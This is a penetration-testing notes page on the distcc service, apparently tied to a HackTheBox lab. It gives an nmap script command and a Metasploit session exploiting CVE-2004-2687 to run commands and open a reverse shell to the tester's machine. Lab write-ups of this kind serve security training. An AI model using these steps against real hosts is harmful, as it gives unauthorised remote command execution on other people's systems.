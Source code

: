 # DISTCC (3632)

## Information

[`distcc`](https://www.distcc.org/) is a distributed compilation tool that allows code to be compiled across multiple machines in a network with the goal of significantly reducing compilation time via workload distribution.

## Exploitation

Based on [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687).

{% tabs %}
{% tab title="Nmap" %}
{% code overflow="wrap" %}
```bash
sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
```bash
# Launching metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
# Checking configuration options
msf6 exploit(unix/misc/distcc_exec) > show options
# Configuring the required variables
msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST tun0
LHOST => 10.10.14.22
# Executing the exploit
msf6 exploit(unix/misc/distcc_exec) > run
```
{% endtab %}
{% endtabs %}

For an example of exploiting `distcc` see [Lame](../boxes/easy/lame.md).
